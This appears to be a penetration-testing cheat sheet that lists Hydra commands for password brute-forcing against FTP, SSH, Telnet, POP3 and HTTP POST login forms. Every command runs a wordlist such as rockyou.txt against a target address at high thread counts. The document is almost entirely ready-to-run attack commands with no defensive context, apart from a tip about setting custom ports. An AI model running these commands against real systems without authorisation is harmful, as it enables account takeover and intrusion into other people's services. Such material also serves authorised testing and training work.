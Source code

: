 FTP
```
hydra -l user -P /usr/share/wordlists/rockyou.txt $ip ftp -f -W 5 -t 64
```

SSH
```
hydra -l user -P /usr/share/wordlists/rockyou.txt $ip ssh -f -W 5 -t 64
```

HTTP-POST
```
hydra -l user -P /usr/share/wordlists/rockyou.txt $ip http-post-form -f -W 5 -t 64 "/login.php:username=^USER^&password=^PASS^:<Login failed>"
```

TELNET
```
hydra -l user -P /usr/share/wordlists/rockyou.txt $ip telnet -f -W 5 -t 64
```

POP3
```
hydra -l user -P /usr/share/wordlists/fasttrack.txt $ip pop3 -f -W 5 -t 64
```

- You can specify a custom port for any protocol using the `-s` (port) flag